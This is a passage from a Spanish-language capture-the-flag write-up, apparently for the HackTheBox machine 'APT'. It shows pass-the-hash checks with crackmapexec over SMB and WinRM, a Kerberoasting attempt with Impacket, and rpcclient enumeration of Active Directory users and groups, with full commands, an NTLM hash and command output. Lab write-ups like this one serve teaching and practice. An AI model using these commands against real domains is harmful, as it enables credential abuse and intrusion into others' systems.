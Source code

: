 Si lo valido con crackmapexec, me reporta que es válido pero no puedo ganar una shell interactiva por SMB

```null
crackmapexec smb APT  -u 'henry.vinson' -H 'e53d87d42adaa3ca32bdb34a876cbffb'
SMB         APT             445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         APT             445    APT              [+] htb.local\henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb 
```

Por winrm tampoco puedo ganar acceso

```null
crackmapexec winrm APT  -u 'henry.vinson' -H 'e53d87d42adaa3ca32bdb34a876cbffb'
SMB         APT             5985   APT              [*] Windows 10.0 Build 14393 (name:APT) (domain:htb.local)
HTTP        APT             5985   APT              [*] http://APT:5985/wsman
WINRM       APT             5985   APT              [-] htb.local\henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb
```

Al tener credenciales válidas, podría probar un Kerberoasting Attack e intentar conseguir un TGS de otro usuario

```null
GetUserSPNs.py htb.local/henry.vinson -hashes :e53d87d42adaa3ca32bdb34a876cbffb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

Pero no encuentra nada

Por rpcclient puedo enumerar los usuarios del Directorio Activo

```null
rpcclient -U "henry.vinson" --pw-nt-hash APT
Password for [WORKGROUP\henry.vinson]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[henry.vinson] rid:[0x451]
user:[henry.vinson_adm] rid:[0x452]
```

En cuanto a los grupos existentes:

```null
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44f]
```
